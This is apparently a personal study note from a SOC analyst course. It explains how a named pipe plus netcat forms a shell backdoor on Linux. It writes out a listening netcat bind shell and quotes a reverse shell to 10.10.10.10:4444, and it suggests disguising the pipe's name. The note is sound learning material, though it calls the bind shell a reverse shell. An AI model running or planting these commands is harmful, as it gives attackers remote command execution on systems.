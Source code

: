 ```yaml
---
{"dg-publish":true,"permalink":"/tool-deep-dives/linux/named-pipe/"}
---
```


During the [[Webinars and Training/BlackHills SOC Core/BHIS SOCC Notes Overview\|BHIS SOC Analyst Core]] course I took recently, the [[Webinars and Training/BlackHills SOC Core/Labs/BHIS-SOCC-lab-LinuxCLI\|Linux Lab]] had an interesting command where you create a FIFO (First in, First out) "backpipe" with `mknod` (create filesystem node) and `netcat`, effectively creating a shell [[Definitions and Topics/backdoor\|backdoor]] on a [[Tool Deep-Dives/Linux/Linux\|Linux]] system.

```Bash
mknod backpipe p
/bin/bash 0<backpipe | nc -l 2222 1>backpipe
```


Basically, `mknod <string> p` creates a named *pipe* (specified by the `p`) called "backpipe" (though it could functionally be named anything that doesn't conflict with other things; for example in the [[Webinars and Training/BlackHills SOC Core/Labs/BHIS-SOCC-lab-tcpdump#Bonus Lab\|tcpdump Bonus Lab]], one could name it *timesync.svc* or something similar to make it less obvious). This *Named Pipe* allows us to pipe an output *from* any location in the shell *to* any location in the shell.
![ThinkingWithPortals.gif|300](/img/user/Attachments/ThinkingWithPortals.gif)

Additionally, `>` and `<` can be used to redirect input in a script; for example, if we ran `./FiscalReport.sh < 2024Q1.csv`, the `FiscalReport` shell script would input the values from `2024Q1.csv`. 

Let's break backpipe command down and see what's going on.
1. `mknod backpipe p`
	1. Creates a named pipe called "backpipe"
2. `/bin/bash 0<backpipe`
	1. `/bin/bash` reads its [[Tool Deep-Dives/Linux/Linux Data Streams\|standard input]] (`stdin`, file descriptor `0`) from the "backpipe"
		2. `backpipe`'s output becomes `/bin/bash`'s input
3. `|`
	1. The output from the prior command is pipe into the following command
4. `nc -l 2222 1>backpipe`
	1. Netcat listens to port *2222* and the [[Tool Deep-Dives/Linux/Linux Data Streams\|standard output]] (`stdout`, file descriptor `1`) is sent into the named pipe "backpipe"

**To summarize,** this forms a loop; *Netcat* listens for data on port *2222*, sends it to the *backpipe*. The *backpipe* sends the output to *Bash*'s input, and *Bash*'s output gets piped to *Netcat*. 


![nyow-youre-thinking-with-portals-e1303609354625.jpg](/img/user/Attachments/nyow-youre-thinking-with-portals-e1303609354625.jpg)

This is a [[Definitions and Topics/Remote Shell\|Reverse Shell]], allowing an attacker to execute shell commands on a remote system.

[Reverse shell cheatsheet](https://saucer-man.com/reverse/) has a similar command, which I've pasted below:

`mknod backpipe p && nc 10.10.10.10 4444 0<backpipe | /bin/bash 1>backpipe`

This is all pretty wild, but what else can we do with a backpipe?




# Sources
[CTID Github: Named Pipes Micro Emulation Plan](https://github.com/center-for-threat-informed-defense/adversary_emulation_library/tree/master/micro_emulation_plans/src/named_pipes)